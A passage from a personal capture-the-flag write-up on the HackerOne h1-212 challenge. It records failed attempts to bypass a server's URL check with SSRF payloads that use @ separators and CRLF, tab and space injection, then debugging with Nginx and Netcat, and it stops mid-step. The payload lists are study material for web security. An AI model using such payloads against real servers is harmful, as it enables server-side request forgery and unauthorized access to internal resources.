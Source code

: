 Since the first part of the domain must contain `212` and the last part must end by `.com`, I had configure a dns `A` record of my own domain to point to `127.0.0.1`, that was useless but hey, how could I know!
Based on the "3 parts payload" mentionned by Orange Tsai, here are some stuff I tried:
```
poc212.10degres.net:1337/flag @www.google.com @h1-212.acme.com
poc212.10degres.net:1337/\r @www.google.com\r @h1-212.acme.com
poc212.10degres.net:1337\r\t@www.google.com\r\t@h1-212.acme.com
poc212.10degres.net:1337\s@www.google.com\s@h1-212.acme.com
poc212.10degres.net:1337\r\n@www.google.com\r\n@h1-212.acme.com
poc212.10degres.net:1337 @\r\nwww.google.com @\r\nh1-212.acme.com
poc212.10degres.net:1337 @/flag @h1-212.acme.com
poc212.10degres.net:1337 @www.google.com @/h1-212.acme.com
```

After some hours (...) I decided to use the SSRF against my own server, that way I could see what kind of requests the CTF server send.
Installing and configuring Nginx. Configuring a `.com` domain I have and the vhost that will be accepted by Jobert's code as well.
Same same but different:
```
poc212.10degres.net:1337/flag @www.google.com @h1-212.10degres.com
poc212.10degres.net:1337/\r @www.google.com\r @h1-212.10degres.com
poc212.10degres.net:1337\r\t@www.google.com\r\t@h1-212.10degres.com
poc212.10degres.net:1337\s@www.google.com\s@h1-212.10degres.com
poc212.10degres.net:1337\r\n@www.google.com\r\n@h1-212.10degres.com
poc212.10degres.net:1337 @\r\nwww.google.com @\r\nh1-212.10degres.com
poc212.10degres.net:1337 @/flag @h1-212.10degres.com
poc212.10degres.net:1337 @www.google.com @/h1-212.10degres.com
```

Checking the log, again and again and still got this f*****g error 400:
[![ctf h1-212 nginx 400](/images/ctf-h1-212-nginx-400.png)](/images/ctf-h1-212-nginx-400.png){:target="_blank"}

Better use Netcat to see the headers received:  
[![ctf h1-212 netcat 400](/images/ctf-h1-212-netcat-400.png)](/images/ctf-h1-212-netcat-400.png){:target="_blank"}

Well not so much information here... Let's try with tcdump then: